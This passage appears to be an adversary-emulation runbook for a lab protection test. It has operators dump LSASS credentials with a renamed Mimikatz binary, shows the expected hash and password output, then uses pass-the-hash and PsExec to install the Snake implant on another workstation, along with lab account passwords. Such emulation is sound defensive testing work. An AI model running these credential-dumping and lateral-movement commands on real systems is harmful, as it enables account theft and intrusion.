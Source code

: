 :arrow_right: Go back to the RDP session to `Berzas (10.100.30.204)` as `EgleAdmin`:

* Open File Explorer and browse to C:\Windows\System32. Order files by date.

* Open command prompt (cmd) as an administrator. If prompted for credentials, use the following:

| Username      | Password |
| :--------:    | :---------------: |
| nk\EgleAdmin  | Producer1! |

* In the admin cmd prompt, run Mimikatz to dump all NTLM hashes from `LSASS.exe`:
```bat
C:\Windows\System32\loadperf.exe pr::d slsa::lop quit 
```
* :heavy_exclamation_mark: Verify that the password and NTLM hash for `ZilvinasAdmin` appears in the output.
  * In the Command Prompt, press CTRL+F and in the "Find what:" field, enter
  `* Username : ZilvinasAdmin`
  * You may have to go up a few results to find the hash and password
  * The output should contain:
  * >    ```
    >        * Username : ZilvinasAdmin
    >        * Domain   : NK
    >        * NTLM     : f3fcd61f987a97da49ce5f650b4e6539
    >        * SHA1     : fc8c801521140666c793108b67716caf4c4189f4
    >        * DPAPI    : b06d7bea8849897b811e1d73ab22726c
    >        tsPkG :	
    >    --
    >        * Username : ZilvinasAdmin
    >        * Domain   : NK
    >        * Password : Producer2!
    >        kErberoS :	
    >        * Username : ZilvinasAdmin
    >        * Domain   : NK.LOCAL
    >        * Password : (null)
    >        sSp :	
    >        crEdMan :
    >    ```

* Wait 1 minute and then in the same elevated cmd prompt, perform pass-the-hash via MimiKatz using `ZilvinasAdmin`'s NTLM hash to run PsExec and install Snake on the target workstation.
```bat
C:\Windows\System32\loadperf.exe pr::d "slsa::htp /user:ZilvinasAdmin /ntlm:f3fcd61f987a97da49ce5f650b4e6539 /domain:nk.local /remotepc:uosis /pexe:C:\Windows\System32\fs_mgr.exe /sys:1 /prun:C:\Windows\System32\cmu_svc.exe" quit
```

* Check both the `berzas (10.100.30.204)` and `uosis (10.100.40.102)` RDP
sessions for indicators of blocked activity.

:arrow_right: Return to your RDP session to `uosis (10.100.40.102)` as `Zilvinas`:

* Open Edge and navigate to `https://drebule.nk.local/owa`. Log in as `Zilvinas`:

| Username   | Password |
| :--------: | :---------------: |
| nk\Zilvinas  | Producer2! |
